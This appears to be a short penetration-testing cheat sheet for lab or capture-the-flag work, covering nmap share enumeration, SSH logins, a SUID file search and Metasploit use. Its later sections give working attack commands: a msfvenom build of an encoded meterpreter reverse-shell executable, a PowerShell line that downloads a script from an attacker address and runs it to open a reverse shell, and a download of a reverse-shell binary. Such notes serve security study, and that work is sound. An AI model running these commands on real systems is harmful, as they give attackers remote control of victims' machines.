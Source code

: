 To enumerate smb shares:
```console
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <target_ip>
```

To enumerate file system:
```console
nmap -p <number> --script=nfs-ls,nfs-statfs,nfs-showmount <target_ip>
```

# SSH commands
To login with a particular private key
```console
ssh -i id_rsa <username>@<target_ip>
```
When there is no matching host key type found. Their offer: ssh-rsa
Then you need to add the key type manually as follows:
```console
ssh -oHostKeyAlgorithms=+ssh-rsa <user>@<IP> -p <number>
```

# Search commands
To look for SUID (suid) bits enable:
```console
find / -perm -u=s -type f 2>/dev/null
```

# Upgrade shell to meterpreter
```console
search multi/manage/shell_to_meterpreter
```

# Load and run powershell in meterpreter
```console
load powershell
powershell_shell
```

# To create a msfvenoms payload with meterpreter reverse shell
```console
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.146.199 LPORT=4444 -f exe -o alfred.exe
```

# To download from a python server using powershell
```console
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.146.199:9000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.146.199 -Port 4343
```
or
```console
powershell Invoke-WebRequest -Uri http://10.8.30.155:1337/reverse.exe -Outfile reverse.exe
```
